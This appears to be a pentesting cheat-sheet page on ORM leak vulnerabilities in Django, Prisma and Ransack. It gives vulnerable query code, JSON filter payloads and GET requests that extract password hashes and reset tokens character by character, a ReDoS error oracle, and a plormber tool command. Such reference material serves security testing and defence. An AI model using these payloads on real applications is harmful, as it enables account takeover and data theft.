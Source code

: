 # ORM Leak

An ORM leak vulnerability occurs when sensitive information, such as database structure or user data, is unintentionally exposed due to improper handling of ORM queries. This can happen if the application returns raw error messages, debug information, or allows attackers to manipulate queries in ways that reveal underlying data.


## CVE

* [CVE-2023-47117: Label Studio ORM Leak](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM Leak](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM Leak](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)


## Django (Python)

The following code is a basic example of an ORM querying the database.

```py
users = User.objects.filter(**request.data)
serializer = UserSerializer(users, many=True)
```

The problem lies in how the Django ORM uses keyword parameter syntax to build QuerySets. By utilizing the unpack operator (`**`), users can dynamically control the keyword arguments passed to the filter method, allowing them to filter results according to their needs.


### Query filter

The attacker can control the column to filter results by. 
The ORM provides operators for matching parts of a value. These operators can utilize the SQL LIKE condition in generated queries, perform regex matching based on user-controlled patterns, or apply comparison operators such as < and >.


```json
{
    "username": "admin",
    "password__startswith": "p"
}
```

Interesting filter to use:

* `__startswith`
* `__contains`
* `__regex`


### Relational Filtering

Let's use this great example from [PLORMBING YOUR DJANGO ORM, by Alex Brown](https://www.elttam.com/blog/plormbing-your-django-orm/)
![](https://www.elttam.com/assets/images/blog/2024-06-24-plormbing-your-django-orm/UML-example-app-simplified-highlight1.png)

We can see 2 type of relationships:

* One-to-One relationships
* Many-to-Many Relationships


#### One-to-One

Filtering through user that created an article, and having a password containing the character `p`.

```json
{
    "created_by__user__password__contains": "p"
}
```


#### Many-to-Many

Almost the same thing but you need to filter more.

* Get the user IDS: `created_by__departments__employees__user__id`
* For each ID, get the username: `created_by__departments__employees__user__username` 
* Finally, leak their password hash: `created_by__departments__employees__user__password`

Use multiple filters in the same request:

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```


### Error-based leaking - ReDOS

If Django use MySQL, you can also abuse a ReDOS to force an error when the filter does not properly match the condition.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => Return something

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => Error 500 (Timeout exceeded in regular expression match)
```


## Prisma (Node.JS)

**Tools**:

* [elttam/plormber](https://github.com/elttam/plormber) - tool for exploiting ORM Leak time-based vulnerabilities
    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```

**Example**:

Example of an ORM leak in Node.JS with Prisma.

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // Vulnerable to ORM Leaks
})
```

Use the include to return all the fields of user records that have created an article

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

Select only one field

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```


### Relational Filtering

#### One-to-One

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### Many-to-Many

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```


## Ransack (Ruby)

Only in Ransack < `4.0.0`.

![](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* Extracting the `reset_password_token` field of a user
    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=1 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2 -> Results in page

    GET /posts?q[user_reset_password_token_start]=2c -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2f -> Results in page
    ```

* Target a specific user and extract his `recoveries_key`
    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```


## Resources

* [PLORMBING YOUR DJANGO ORM - Alex Brown - June 24, 2024](https://www.elttam.com/blog/plormbing-your-django-orm/)
* [PLORMBING YOUR PRISMA ORM WITH TIME-BASED ATTACKS - Alex Brown - July 09, 2024](https://www.elttam.com/blog/plorming-your-primsa-orm/)
* [QuerySet API reference - Django](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
* [Ransacking your password reset tokens - LUKAS EULER - JANUARY 26, 2023](https://positive.security/blog/ransack-data-exfiltration)
* [ORM Injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/orm-injection)
* [ORM Leak Exploitation Against SQLite - Louis Nyffenegger - PentesterLab](https://pentesterlab.com/blog/orm-leak-with-sqlite3)